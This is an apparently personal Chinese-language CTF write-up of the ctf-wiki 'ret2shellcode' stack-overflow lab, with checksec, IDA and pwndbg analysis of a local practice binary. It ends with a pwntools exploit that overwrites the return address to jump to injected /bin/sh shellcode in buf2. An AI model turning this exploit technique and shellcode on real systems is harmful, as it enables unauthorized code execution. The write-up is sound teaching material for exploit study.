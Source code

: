 # ret2shellcode

> 出自 https://github.com/ctf-wiki/ctf-wiki 中的Pwn: Linux Pwn: 栈溢出: 基本ROP
>
> writer: github.com/hex-16   data: 2021.3   contact: hexhex16@outlook.com
>
> file: ret2shellcode     (download from https://github.com/ctf-wiki/ctf-wiki)
>
> 原始出处未知，非比赛题目(也许)，故所在文件夹命名方式有所区别

- 使用自行构造的`sh`指令码
- TBD: 无法获取稳定shell，疑似与bss段没有可执行权限有关，vmmap显示的内容与ctf-wiki上展示的不同

# checksec

- 使用的是从 https://github.com/slimm609/checksec.sh 安装的新版`checksec`

```bash
$ checksec --file=ret2shellcode
RELRO          STACK CANARY     NX           PIE     RPATH     RUNPATH     Symbols      FORTIFY Fortified Fortifiable  FILE
Partial RELRO  No canary found  NX disabled  No PIE  No RPATH  No RUNPATH  79) Symbols    No    0         3            ret2shellcode
$ checksec --version
checksec v2.4.0, Brian Davis, github.com/slimm609/checksec.sh, Dec 2015
Based off checksec v1.5, Tobias Klein, www.trapkit.de, November 2011
```

- 注意没有canary，没有NX（no-execute disabled）即没有禁止执行保护

# IDA Analysis

- IDA显示的main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

- 代码中将输入的字符串`s`复制到了`buf2`中，`buf2`在内存的`.bbs`段，该段存储没有初始化的和初始化为0的全局变量。`.bbs`段相关知识查看https://github.com/hex-16/Markdown_Note/blob/master/%5BProgram%5D_C_Cpp_Python_php_Latex_DataBase/%5Bc%5D_Basis_DataType_Pointer_DataArea_Heap_Stack_BitOperation_bool.md
- IDA中显示的`buf2`存储的区域：

```c
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
.bss:0804A080 _bss            ends
```



# gdb(pwndbg) Analysis

- 已安装pwndbg

```bash
$ chmod 777 ./ret2shellcode
$ gdb -q ret2shellcode
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ret2shellcode...
pwndbg> b main
Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode

Breakpoint 1, main () at ret2shellcode.c:8
8       ret2shellcode.c: No such file or directory.
......................
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x8049000  0x804a000 r--p     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode
0xf7dca000 0xf7de7000 r--p    1d000 0      /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7de7000 0xf7f3c000 r-xp   155000 1d000  /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f3c000 0xf7fac000 r--p    70000 172000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fac000 0xf7fad000 ---p     1000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fad000 0xf7faf000 r--p     2000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7faf000 0xf7fb1000 rw-p     2000 1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb1000 0xf7fb3000 rw-p     2000 0
0xf7fcb000 0xf7fcd000 rw-p     2000 0
0xf7fcd000 0xf7fd1000 r--p     4000 0      [vvar]
0xf7fd1000 0xf7fd3000 r-xp     2000 0      [vdso]
0xf7fd3000 0xf7fd4000 r--p     1000 0      /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7fd4000 0xf7ff1000 r-xp    1d000 1000   /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ff1000 0xf7ffc000 r--p     b000 1e000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r--p     1000 28000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rw-p     1000 29000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

- 注意` 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode`这是`buf2`所在的区域
- 这里和ctf-wiki上显示的不一致，`0x804a000  0x804b000  rw-p`这一段并没有执行(`x`)权限





```c
$ gdb ./ret2shellcode -q
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./ret2shellcode...
pwndbg> b *0x080485AF
Breakpoint 1 at 0x80485af: file ret2shellcode.c, line 15.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode
No system for you this time !!!
abcdabcd123456789

Breakpoint 1, 0x080485af in main () at ret2shellcode.c:15
15      ret2shellcode.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0xffffd3bc ◂— 'abcdabcd123456789'
 EBX  0x0
 ECX  0xf7faf580 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xfbad2288
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0xffffd428 ◂— 0x0
 ESP  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
 EIP  0x80485af (main+130) —▸ 0xfffe6ce8 ◂— 0x0
────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x80485af <main+130>    call   strncpy@plt <strncpy@plt>
        dest: 0x804a080 (buf2) ◂— 0x0
        src: 0xffffd3bc ◂— 'abcdabcd123456789'
        n: 0x64

   0x80485b4 <main+135>    mov    dword ptr [esp], 0x8048680
   0x80485bb <main+142>    call   printf@plt <printf@plt>

   0x80485c0 <main+147>    mov    eax, 0
   0x80485c5 <main+152>    leave
   0x80485c6 <main+153>    ret

   0x80485c7               nop             ..............
────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ esp  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
01:0004│      0xffffd3a4 —▸ 0xffffd3bc ◂— 'abcdabcd123456789'
02:0008│      0xffffd3a8 ◂— 0x64 /* 'd' */
03:000c│      0xffffd3ac ◂— 0x0
04:0010│      0xffffd3b0 —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x29f3c
05:0014│      0xffffd3b4 —▸ 0xffffd43c —▸ 0xffffd464 ◂— 0x0
06:0018│      0xffffd3b8 ◂— 0x2
07:001c│ eax  0xffffd3bc ◂— 'abcdabcd123456789'
────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0  80485af main+130
   f 1 f7de8e46 __libc_start_main+262
```

- s的地址：`0xffffd3bc`
- `ebp`栈帧基地址：`0xffffd428`,  s相对于`ebp`的偏移为 `0xffffd3bc - 0xffffd428` = `-0x6c`

# Exploit

- 获取的shell不稳定，疑似与前面显示的`0x804a000  0x804b000  rw-p`这一段没有执行(`x`)权限有关

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'
context.binary = './ret2shellcode'  # context(os='linux', arch='i386')
print(context)

sh = process('./ret2shellcode')
gdb.attach(sh)
# shellcraft.i386.linux.sh()  #shellcraft.sh()
shellcode = asm(shellcraft.sh())  # type(shellcraft.sh()): str 为汇编代码 # 构造自己的sh汇编码
print("shellcode: ", type(shellcode), shellcode)
buf2_addr = 0x0804A080
payload = shellcode.ljust(0x6c + 4, b'A') + p32(buf2_addr)
sh.sendline(payload)
# b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80AA...A\x80\xa0\x04\x08'
print("sendline: ", type(payload), len(payload), " : ", payload)
sh.interactive()
```





